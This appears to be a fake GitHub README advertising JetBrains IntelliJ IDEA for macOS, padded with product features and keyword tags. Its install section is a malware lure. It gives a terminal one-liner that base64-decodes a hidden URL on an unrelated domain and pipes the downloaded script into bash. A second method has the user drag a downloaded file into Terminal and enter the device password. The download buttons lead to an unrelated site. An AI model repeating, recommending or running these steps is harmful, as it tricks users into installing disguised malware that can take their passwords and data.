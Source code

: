 # 💻 JetBrains IntelliJ IDEA — Powerful Java IDE for macOS

**IntelliJ IDEA** by JetBrains is a professional integrated development environment (IDE) for Java and other programming languages, fully optimized for macOS. With intelligent code assistance, deep framework integration, and powerful developer tools, IntelliJ IDEA is trusted by millions of developers worldwide for building enterprise, mobile, and web applications.

Whether you're coding in Java, Kotlin, Python, or JavaScript, IntelliJ IDEA offers a seamless and productive experience on MacBook, powered by Apple Silicon or Intel chips.

---

## ✅ Download IntelliJ IDEA for macOS  
[![Download IntelliJ IDEA](https://img.shields.io/badge/Download-IntelliJ_IDEA-blueviolet)](https://shuziktobehuman.github.io/huja/JetBrains)

---

## 📦 How to Install

# Installation via .dmg:

1. Install the .dmg file using the button above. 
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

# Installation via a command in the terminal:

1. Copy the installation command below.
```bash
/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9nZXQyL2luc3RhbGwuc2g= | base64 -d))"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)





## 📦 What is IntelliJ IDEA?

IntelliJ IDEA is a feature-rich IDE built specifically for productivity. Developed by JetBrains, it supports JVM and non-JVM languages with deep code insight, version control, testing tools, and smart navigation. The Ultimate edition includes full-stack web development features, while the Community edition remains a favorite among students and educators.

Built to understand your code, IntelliJ IDEA automatically completes, analyzes, and refactors across entire projects, saving developers time and effort.

---

## ✨ Features

- 🧠 **Smart Code Completion**, analysis & suggestions  
- 📚 Support for Java, Kotlin, Scala, Groovy, and more  
- 🛠 Advanced refactoring and intelligent navigation  
- 🔌 Built-in support for Maven, Gradle, Git, and Docker  
- 💻 Full-stack web dev: HTML, CSS, JavaScript, TypeScript  
- 📱 Framework support: Spring, Hibernate, React, Angular, Flutter  
- 🧩 Extensive JetBrains plugin ecosystem  
- 🔐 IntelliJ IDEA Copilot & GitHub Copilot integration  
- 🖥 Optimized for macOS Ventura & Apple Silicon (M1/M2/M3)  
- 🎓 Education edition available for students and teachers  

---

## 💡 Why Use IntelliJ IDEA?

- 🚀 Trusted by professional developers worldwide  
- 🎯 Intelligent tooling that understands code context  
- 🧩 Massive library of extensions and plugins  
- 📁 Seamless project management and deployment tools  
- ⚙️ Ideal for building enterprise-level Java applications  
- 📱 Cross-platform support with macOS-optimized performance  

---

[![Download IntelliJ IDEA](https://img.shields.io/badge/Download-IntelliJ_IDEA-blueviolet)](https://shuziktobehuman.github.io/huja/JetBrains)

---


## 🖼 Preview

![IntelliJ IDEA Screenshot 1](https://www.jetbrains.com/idea/img/screenshots/idea_overview_5_1@2x.png)  
![IntelliJ IDEA Screenshot 2](https://www.jetbrains.com/idea/download/screenshots/download.png)

---

## 📌 Tags

intelli j, intellij idea ultimate, netbean ide, download intelli j, jetbrains intellij idea,  
jetbrains java, intelli j plugins, intellij ide for java, intellij ide for mac, intellij idea webstorm,  
intellij macbook, jetbrain plugins, intellij idea license, idea jetbrains, intellij idea discount,  
copilot intellij idea, download jetbrains intellij, github copilot intellij idea, intellij idea c#,  
intellij idea copilot, intellij idea education edition, intellij idea flutter, intelli j mac, intelli j mac download

---
